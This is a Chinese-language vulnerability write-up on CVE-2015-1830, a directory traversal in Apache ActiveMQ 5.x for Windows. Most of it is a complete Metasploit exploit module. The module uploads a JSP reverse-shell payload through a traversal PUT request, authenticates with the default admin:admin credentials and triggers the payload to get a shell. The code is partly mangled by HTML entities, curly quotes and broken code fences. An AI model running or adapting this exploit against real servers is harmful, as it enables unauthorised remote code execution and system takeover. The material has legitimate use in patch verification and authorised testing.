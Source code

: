 ```yaml
---
title: （CVE-2015-1830）ActiveMQ 路径遍历导致未经身份验证的rce
id: zhfly2799
---
```


# （CVE-2015-1830）ActiveMQ 路径遍历导致未经身份验证的rce

## 一、漏洞简介

Windows 5.11.2之前的Apache ActiveMQ 5.x中blob消息的文件服务器上载/下载功能中的目录遍历漏洞允许远程攻击者通过未指定的向量在任意目录中创建JSP文件。

## 二、漏洞影响

ActiveMQ 5.11.1

## 三、复现过程

### msf poc

> 直接在msf里面搜索就行了，如果没有请更新msf版本，或者手动复制下面的脚本到msf目录下。

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote

Rank = ExcellentRanking

include Msf::Exploit::Remote::HttpClient

def initialize(info = {})

super(update_info(info,

‘Name’           => ‘Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload’,

‘Description’    => %q{

This module exploits a directory traversal vulnerability (CVE-2015-1830) in Apache

ActiveMQ 5.x before 5.11.2 for Windows.

```
 The module tries to upload a JSP payload to the /admin directory via the traversal
    path /fileserver/..\\admin\\ using an HTTP PUT request with the default ActiveMQ
    credentials admin:admin (or other credentials provided by the user). It then issues
    an HTTP GET request to /admin/&lt;payload&gt;.jsp on the target in order to trigger the
    payload and obtain a shell.
  },
  'Author'          =&gt;
    [
      'David Jorm',     # Discovery and exploit
      'Erik Wynter'     # @wyntererik - Metasploit
    ],
  'References'     =&gt;
    [
      [ 'CVE', '2015-1830' ],
      [ 'EDB', '40857'],
      [ 'URL', 'https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt' ]
    ],
  'Privileged'     =&gt; false,
  'Platform'    =&gt; %w{ win },
  'Targets'     =&gt;
    [
      [ 'Windows Java',
        {
          'Arch' =&gt; ARCH_JAVA,
          'Platform' =&gt; 'win'
        }
      ],
    ],
  'DisclosureDate' =&gt; '2015-08-19',
  'License'        =&gt; MSF_LICENSE,
  'DefaultOptions'  =&gt; {
    'RPORT' =&gt; 8161,
    'PAYLOAD' =&gt; 'java/jsp_shell_reverse_tcp'
    },
  'DefaultTarget'  =&gt; 0))

register_options([
  OptString.new('TARGETURI', [true, 'The base path to the web application', '/']),
  OptString.new('PATH',      [true, 'Traversal path', '/fileserver/..\\admin\\']),
  OptString.new('USERNAME', [true, 'Username to authenticate with', 'admin']),
  OptString.new('PASSWORD', [true, 'Password to authenticate with', 'admin'])
]) 
```

end

def check

print_status(“Running check…”)

testfile = Rex::Text::rand_text_alpha(10)

testcontent = Rex::Text::rand_text_alpha(10)

```
send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
    },
  'method'    =&gt; 'PUT',
  'data'      =&gt; "&lt;% out.println(\"#{testcontent}\");%&gt;"
})

res1 = send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
    },
  'method'    =&gt; 'GET'
})

if res1 &amp;&amp; res1.body.include?(testcontent)
  send_request_cgi(
    opts = {
      'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'DELETE'
    },
    timeout = 1
  )
  return Exploit::CheckCode::Vulnerable
end

Exploit::CheckCode::Safe 
```

end

def exploit

print_status(“Uploading payload…”)

testfile = Rex::Text::rand_text_alpha(10)

vprint_status(“If upload succeeds, payload will be available at #{target_uri.path}admin/#{testfile}.jsp”) #This information is provided to allow for manual execution of the payload in case the upload is successful but the GET request issued by the module fails.

```
send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
    },
  'method'    =&gt; 'PUT',
  'data'      =&gt; payload.encoded
})

print_status("Payload sent. Attempting to execute the payload.")
res = send_request_cgi({
  'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
  'headers'     =&gt; {
    'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
  },
  'method'    =&gt; 'GET'
})
if res &amp;&amp; res.code == 200
  print_good("Payload executed!")
else
  fail_with(Failure::PayloadFailed, "Failed to execute the payload")
end 
``` `end

end` 
```